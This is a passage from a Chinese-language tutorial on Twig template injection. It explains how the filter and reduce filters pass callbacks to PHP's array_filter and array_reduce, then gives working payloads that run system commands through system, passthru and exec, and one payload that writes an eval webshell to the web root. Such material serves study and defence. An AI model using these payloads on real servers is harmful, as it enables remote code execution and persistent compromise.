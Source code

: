 ```php
{% set lists = [34, 36, 38, 40, 42] %}
{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

> 类似于 map，模板编译的过程中会进入 `twig_array_filter` 函数，这个 `twig_array_filter` 函数的源码如下

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    // $array 和 $arrow 直接被 array_filter 函数调用
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_filter` 函数可以用回调函数过滤数组中的元素，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./md5和twig/3.png" alt="">

> Payload

```php
{{["calc"]|filter("system")}}
{{["calc"]|filter("passthru")}}
{{["calc"]|filter("exec")}}    // 无回显
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|filter("file_put_contents")}}    // 写 Webshell
```

### reduce 过滤器
> 这个 reduce 过滤器使用箭头函数迭代地将序列或映射中的多个元素缩减为单个值，箭头函数接收上一次迭代的返回值和序列或映射的当前值

```php
{% set numbers = [1, 2, 3] %}
{{ numbers|reduce((carry, v) => carry + v) }}
// Output: 6
```

> 类似于 map，模板编译的过程中会进入 `twig_array_reduce` 函数，这个 `twig_array_reduce` 函数的源码如下

```php
function twig_array_reduce($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);    // $array, $arrow 和 $initial 直接被 array_reduce 函数调用
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_reduce` 函数可以发送数组中的值到用户自定义函数并返回一个字符串，如果自定义一个危险函数将造成代码执行或命令执行

> Payload

```php
{{[0, 0]|reduce("system", "calc")}}
{{[0, 0]|reduce("passthru", "calc")}}
{{[0, 0]|reduce("exec", "calc")}}    // 无回显
```